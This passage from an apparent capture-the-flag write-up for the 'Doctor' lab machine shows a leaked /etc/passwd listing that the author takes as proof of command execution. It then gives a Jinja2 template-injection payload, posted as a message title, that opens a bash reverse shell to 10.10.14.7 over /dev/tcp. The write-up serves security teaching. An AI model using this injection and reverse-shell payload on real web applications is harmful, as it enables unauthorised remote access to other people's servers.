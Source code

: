 ```xml
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
web:x:1001:1001:,,,:/home/web:/bin/bash
_rpc:x:126:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:127:65534::/var/lib/nfs:/usr/sbin/nologin
exim:x:31:31:Exim Daemon:/dev/null:/bin/false
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
</title></item>
</channel>
```

We can execute commands! The next step is to execute a reverse shell payload to get a proper shell.

For that, we need to publish the following payload as the post title...

\{\{request.application.\_\_globals__.\_\_builtins__.\_\_import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.7/9000 0>&1"').read()\}\}

Make sure to change the IP and port to which you have the access to. We should get a reverse shell once we post a message with the above payload as the title.

![reverse-shell-web](/assets/img/posts/doctor-htb/revshell-web.png)

---